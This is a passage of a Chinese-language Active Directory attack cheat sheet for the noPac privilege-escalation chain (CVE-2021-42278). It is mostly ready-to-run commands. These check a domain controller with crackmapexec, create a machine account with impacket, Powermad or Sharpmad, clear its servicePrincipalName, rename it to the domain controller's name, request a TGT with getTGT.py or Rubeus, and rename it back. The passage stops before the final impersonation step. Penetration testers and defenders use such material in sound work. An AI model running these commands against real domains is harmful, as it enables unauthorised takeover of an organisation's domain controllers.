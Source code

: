   1. 检查域控制器是否易受攻击

  ```powershell
  crackmapexec smb 10.10.10.10 -u '' -p '' -d domain -M nopac
  ```

  **利用方法**

  0. 创建一个计算机账户

  ```powershell
  impacket@linux> addcomputer.py -computer-name 'ControlledComputer$' -computer-pass 'ComputerPassword' -dc-host DC01 -domain-netbios domain 'domain.local/user1:complexpassword'
  
  powermad@windows> . .\Powermad.ps1
  powermad@windows> $password = ConvertTo-SecureString 'ComputerPassword' -AsPlainText -Force
  powermad@windows> New-MachineAccount -MachineAccount "ControlledComputer" -Password $($password) -Domain "domain.local" -DomainController "DomainController.domain.local" -Verbose
  
  sharpmad@windows> Sharpmad.exe MAQ -Action new -MachineAccount ControlledComputer -MachinePassword ComputerPassword
  ```

  1. 清除受控机器账户的`servicePrincipalName`属性

  ```ps1
  impacket@linux> addspn.py -u 'domain\user' -p 'password' -t 'ControlledComputer$' -c DomainController
  
  powershell@windows> . .\Powerview.ps1
  powershell@windows> Set-DomainObject "CN=ControlledComputer,CN=Computers,DC=domain,DC=local" -Clear 'serviceprincipalname' -Verbose
  ```

  2. (CVE-2021-42278) 将受控机器账户的`sAMAccountName`更改为不带尾随`$`的域控制器名称

  ```ps1
  # https://github.com/SecureAuthCorp/impacket/pull/1224
  impacket@linux> renameMachine.py -current-name 'ControlledComputer$' -new-name 'DomainController' -dc-ip 'DomainController.domain.local' 'domain.local'/'user':'password'
  
  powermad@windows> Set-MachineAccountAttribute -MachineAccount "ControlledComputer" -Value "DomainController" -Attribute samaccountname -Verbose
  ```

​          3.为受控机器账户请求票据授权文件（TGT）

```ps1
impacket@linux> getTGT.py -dc-ip 'DomainController.domain.local' 'domain.local'/'DomainController':'ComputerPassword'

cmd@windows> Rubeus.exe asktgt /user:"DomainController" /password:"ComputerPassword" /domain:"domain.local" /dc:"DomainController.domain.local" /nowrap
```

​         4.将受控机器账户的sAMAccountName重置为其旧值
```ps1
impacket@linux> renameMachine.py -current-name 'DomainController' -new-name 'ControlledComputer$' 'domain.local'/'user':'password'

powermad@windows> Set-MachineAccountAttribute -MachineAccount "ControlledComputer" -Value "ControlledComputer" -Attribute samaccountname -Verbose
```
